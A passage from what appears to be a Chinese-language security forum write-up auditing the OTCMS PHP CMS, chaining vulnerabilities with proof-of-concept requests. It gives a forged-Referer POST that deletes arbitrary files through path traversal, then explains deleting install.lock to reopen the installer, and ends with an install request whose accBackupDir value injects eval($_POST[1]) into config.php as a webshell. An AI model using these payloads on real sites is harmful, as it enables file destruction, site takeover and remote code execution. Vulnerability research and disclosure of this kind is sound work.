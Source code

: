![9-14.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-e25a749c21d0f7a0e172a8b821968934af69b637.png)

```php
if ($_SERVER['REQUEST_METHOD'] == 'POST' && (empty($_SERVER['HTTP_REFERER']) || preg_replace("tps?:\/\/([^\:\/]+).*/i", "\\1", $_SERVER['HTTP_REFERER']) !== preg_replace("/([^\:]+).*/", "\\1", $_SERVER['HTTP_HOST']))) 
```

OutSubmit函数中，检查请求方式是否为POST并且Referer是否和Host相同，那么构造最终poc如下：

```php
POST http://www.ot.com/usersCenter\_deal.php?mudi=rev
Referer:http://www.ot.com
revType=app&dashangImg1=11&dashangImg2=11&dashangImg3=11&dashangImg1Old=../../1.txt
```

漏洞验证

![9-15.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-ec2379fc1eb5be32d1f8c6085594ec39bf7e1da6.png)

成功删除文件

#### 系统重装漏洞

根据之前知道的install.lock文件的位置，配合文件上传漏洞，即可将install.lock删除

![9-16.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-d1adbfff2b95f595787dc1b73ab4db0eb8a80863.png)

删除后访问/install

![9-17.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-cbd23054be843d0f7174812769f316d8d8cacdbf.png)

成功访问到重装页面

**重装写shell**

![9-18.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-454c91f1701f35dfef961543efab30d890f470f5.png)

安装系统时，通过Write函数将一些值写入config.php

参数如下

![9-19.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-098b9747b3e5ce612578b2b5de31d99f552017e9.png)

![9-20.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-4ef78709997795a762e2dcbac6719c7efc306630.png)

accBackupDir参数通过POST传入，没有过滤

![9-21.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-c5411a4e13e700ab55ce48f3daa8492367d32879.png)

构造poc进行闭合

```php
POST /install/index.php?mudi=run
adminName=admin&adminPwd=admin&adminDir=admin&dbType=mysql&accName=%23+OTCMS%40%21db%2522.db&accDir=Data&sqlIp=localhost&sqlPo=3306&sqlUsername=root&sqlUserPwd=123456&sqlDbName=OTCMS&sqlPref=OT_&isImport=2&mysqlState=1&accBackupDir=Data_backup');eval($_POST[1]);#
```
